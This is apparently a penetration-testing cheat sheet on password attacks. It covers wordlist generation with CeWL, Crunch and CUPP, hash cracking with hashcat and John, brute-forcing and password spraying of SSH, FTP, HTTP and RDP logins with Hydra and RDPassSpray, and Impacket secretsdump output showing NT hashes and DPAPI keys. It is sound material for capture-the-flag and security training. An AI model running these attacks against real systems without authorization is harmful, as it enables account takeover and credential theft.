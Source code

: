 # Passwords, Hashes and wordlist tools

Here is a how to for tools useful for passwords attack or generating wordlists

## Cewl

Cewl can be used to generate a wordlist from a website, this can make you gain a lot of time and it was definitely helpful for me on a lot of CTF ;)  

- `cewl http://website/ > pass.txt`
- `cewl -w pass.txt -m 8 http://website` -m 8 will specify to find words of 8 chars or more

## Username generator

During the enumeration phase we might find users last and first name. Username generator can use thoses to generate usernames.  
- `python3 username_generator.py -w wordlist > users.txt` will send in users.txt a list o usernames generated with a wordlist 

## Crunch

Crunch will generate a word based on criterias you will need.  
- `crunch -h` will show help and options
- Usage: `crunch min max pattern -o outfile`
- `crunch 8 8 01234abcd -o pass.txt` you will get a list of 8 chars word containing the chars in the pattern 01234abcd 
- More advanced options
  - `@` lower case alpha characters
  - `,` upper case alpha characters
  - `%` numeric characters
  - `^` special characters including space
- `crunch 8 8 -t mypass%%` will generate a list of 8 chars word with 2 digits in the end

## Home made script

It can happen for instance that you know the begining of a password or a part of a password, you can use this script to generate 2 to 3 more digits at the end (you can modify it to put it anywhere else in the string)  
And of course we could use crunch as well.
```
# bin/bash
for i in {0..999}
do
 echo "mypassword"$i
done
```

## CUPP

CUPP is a very cool tool that will ask you question about your target in order to generate a personnalized wordlist for your target. It can use different languages  
- `python3 cupp.py -i` launch this to start answering question about the target

## hash-identifier

- `hash-identifier`
- Enter your hash
- You will get a list of possible hashs

## hashid

- `hashid <hash-here>`
- You will get a list of possible hashs

## hashcat

- It is a tool that can help crack hashes using a wordlist.
- `hashcat -h` will print help
- `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
- the flag `-m` will define the hash mode see all modes [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
- You can find also the proper module using this `hashcat --help | grep <service-you-need>` See the example below
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
  13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
  18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
  19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
  19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
  19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
  19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- the flag `-a` will set the attack mode
- We can either give it a single hash or a file
- Adding `--show` will show the crack value if the hash is cracked
- We can use it for Brute-force attack: `-a 3` will specify it is bruteforce `?d?d?d` will use 3 digits from 000 to 999.
- Example: `hashcat -a 3 -m 0 HASH-HERE ?d?d?d`

### Using hashcat with rules

- In kali rules are located in `/usr/share/hashcat/rules`
- `hashcat -a 0 -m 1000 <HASH-HERE> -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule /usr/share/wordlists/rockyou.txt`

## John the Ripper

### Rule-Based Attack

- John the ripper has a config file that contains rule sets, which is located at /etc/john/john.conf or /opt/john/john.conf depending on your distro or how john was installed. You can read /etc/john/john.conf and look for List.Rules to see all the available rules:  
`cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF`  
- We can create a rule and add it to the conf file, for example this rule will add a symbol at the beginning of the word and a number at the end: 
  ```
  [List.Rules:My-own-rule]
  Az"[0-9]" ^[!@#$]
  ```

## Hydra

- Hydra is a very handy tool for when you need to bruteforce auth. It supports a lot of protocols.

### SSH

- `hydra -L users -P pass 10.10.4.129 -t 4 ssh ` will use the user list and password list mentioned if you put minus l or minus p you can just specify one user or one password.
**OR**
- `hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v`
- `hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10` Password spraying attack

### FTP

- It is pretty much the same for ftp except you need to add ftp instead of ssh in the end: `hydra -L users -P pass 10.10.4.129 -t 4 ftp` if you have the username you can also do has follow `hydra -l ftp -P passlist.txt ftp://10.10.x.x` (we use `ftp` as the username)

### SMTP

- `hydra -l email@company.xyz -P /path/to/wordlist.txt`

### HTTP logins

- `hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`

## RDPassSpray

- Get it [here](https://github.com/xFreed0m/RDPassSpray). This tool allows you to perform attacks on RDP services
- `python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026`

## Secretdump (Impacket)

- Get SAM hashes with SAM file, SECURITY file and SYSTEM file
```
┌──(kali㉿kali)-[~/Documents/offshore/joe-lpt]
└─$ secretsdump.py local -sam SAM -security SECURITY -system SYSTEM                                                                                                                  
Impacket v0.9.24.dev1+20210609.121058.90ce4b7d - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x8d1b3bcb293ec2bacf262ca05e9827c9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:tso3b987b51404eeaad3b435b51404ee:49a159d455162a975ead15763e45817e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:97d6cfe0d16ae931b73c97d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c98d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7025790b5bb6b1c75aff52f9fd307ce1:::
user:1001:aad3b435b51404eeaad3b943b799354ee:4568151a41ac1b353f40f4dc7f90f19d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x74fc9763584fe15e438782383249a92a395e18d5
dpapi_userkey:0x3fc57e5af5f687620a96c987638dca9c1dd382d3
[*] NL$KM 
 0000   0C EF 72 8A 43 7E B4 55  55 BE ED 92 C6 D9 01 11   ..r.C~.UU.......
 0010   DA 01 E1 C2 E3 83 93 D6  A9 B3 75 42 64 F6 43 86   ..........uBd.C.
 0020   4B 57 29 42 05 FF 94 D7  9E A9 44 9A DE 97 89 FB   KW)B......D.....
 0030   9E 0E A6 86 DB C9 2E 44  6E A7 08 29 D4 F4 FD 66   .......Dn..)...f
NL$KM:0cef728a437eb45555beed92c6d90111da01e1c2e38393d6a9b3754264f643864b98768792ff94d79ea9449ade9789fb9e0ea686dbc92e446ea93264d4f4fd66
[*] Cleaning up... 
```

- You can also work only with SAM and SYSTEM `secretsdump.py local -sam SAM -system SYSTEM `

## Resources

{% embed url="https://github.com/digininja/CeWL" %} CeWL {% endembed %}
{% embed url="https://github.com/shroudri/username_generator" %} Username Generator {% endembed %}
{% embed url="https://www.kali.org/tools/crunch/" %} Crunch {% endembed %}
{% embed url="https://github.com/Mebus/cupp" %} CUPP - Common User Passwords Profiler {% endembed %}
{% embed url="https://www.kali.org/tools/hash-identifier/" %} hash-identifier on kali {% endembed %}
